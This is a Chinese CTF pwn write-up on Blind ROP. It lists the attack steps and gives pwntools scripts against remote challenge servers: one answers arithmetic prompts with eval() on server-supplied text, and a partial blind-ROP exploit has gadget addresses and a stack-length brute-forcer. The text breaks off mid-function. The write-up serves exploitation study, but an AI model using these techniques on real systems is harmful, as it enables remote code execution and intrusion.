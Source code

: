 BROP的攻击思路一般有以下几个步骤：

1. 暴力枚举，获取栈溢出长度，如果程序开启了Canary ，顺便将canary也可以爆出来
2. 寻找可以返回到程序main函数的gadget,通常被称为stop_gadget
3. 利用stop_gadget寻找可利用(potentially useful)gadgets，如:pop rdi; ret
4. 寻找BROP Gadget，可能需要诸如write、put等函数的系统调用
5. 寻找相应的PLT地址
6. dump远程内存空间
7. 拿到相应的GOT内容后，泄露出libc的内存信息，最后利用rop完成getshell

ezBROP：接收数字进行计算的

```python
from pwn import *
import time
p=remote("1.95.36.136", 2092)

p.sendline("haha")
p.sendline("2")
p.sendline("22")

for i in range(520):
        p.recvuntil('看看这道题怎么样：')
        temp = p.recvuntil(b'=')
        temp=temp.decode().replace("="," ")
        ans = eval(temp)
        p.sendline(str(ans))
        p.sendline(' ')
        print(temp,ans,i)
        time.sleep(1)
p.interactive()
```

blind rop：

```python
from pwn import *
from LibcSearcher import *
io = remote('pwn.challenge.ctf.show',28153)
buf_length   = 72
stop_gadgets = 0x400728
brop_gadgets = 0x4007ba
pop_rdi_ret  = 0x400843
puts_plt     = 0x400550
puts_got     = 0x602018
#暴力枚举栈空间大小
def Getbuflenth():
    i = 1
    while 1:
        try:
            io = remote('pwn.challenge.ctf.show',28235)
        	io.recvuntil("Welcome to CTFshow-PWN ! Do you know who is daniu?\n")
            io.send(i*'a')
            data = io.recv()
            io.close()
            if not data.startswith('No passwd'):
                return i-1
            else:
                i+=1
        except EOFError:
            io.close()
            return i-1
#找到获取stop_gadget     
def GetStopAddr():
	address = 0x400000
	while 1:
```